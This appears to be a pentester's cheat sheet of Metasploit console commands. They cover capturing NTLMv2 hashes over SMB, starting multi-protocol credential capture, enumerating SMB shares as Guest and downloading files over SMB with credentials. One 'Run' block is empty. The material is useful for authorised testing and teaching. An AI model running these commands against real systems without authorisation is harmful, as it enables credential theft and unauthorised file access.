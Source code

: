 # Start capturing NTLMv2 over SMB
```ruby
use auxiliary/server/capture/smb
set VERBOSE true
run
```

# Start capturing all supported protocols
```ruby
load capture
captureg start --ip <ip>
```

# Enumerate SMB shares
## Options
```ruby
use auxiliary/scanner/smb/smb_enumshares
set SMBUser Guest
set RHOSTS <ip>
```

## Run
```ruby
```

# Download a file over SMB
## Options
```ruby
use auxiliary/admin/smb/download_file
```

## Run
```ruby
use auxiliary/admin/smb/download_file
run smb://Guest:@<ip>/<share>/<path>/<file>
# run smb://<user>:<password>@<ip>/<share>/<path>/<file>
```
